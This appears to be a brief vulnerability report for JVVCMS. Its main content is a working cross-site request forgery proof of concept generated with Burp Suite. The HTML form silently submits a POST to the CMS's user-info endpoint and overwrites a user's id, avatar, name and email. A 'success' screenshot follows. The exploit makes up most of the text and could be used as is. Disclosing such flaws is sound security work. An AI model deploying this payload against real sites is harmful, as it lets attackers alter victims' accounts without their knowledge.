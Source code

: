 traget:
https://www.jvvcms.com/


<img width="1713" alt="image-20240504221357154" src="https://github.com/wohencaicai/jvvcms/assets/122728083/8b4704cf-9d95-490c-ad57-245503181783">

Poc

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/system/core/sysUser/userInfo" method="POST">
      <input type="hidden" name="id" value="3" />
      <input type="hidden" name="avatar" value="https&#58;&#47;&#47;img&#46;jvvcms&#46;com&#47;FiW2agVN24vYDPcWwOl8JQMQEDSg" />
      <input type="hidden" name="realName" value="1" />
      <input type="hidden" name="email" value="test&#64;1622&#46;com" />
      <input type="hidden" name="remark" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

Succesd
<img width="1714" alt="image-20240504214950560" src="https://github.com/wohencaicai/jvvcms/assets/122728083/d37a67e2-b0f5-4f88-9088-87e38aaad692">


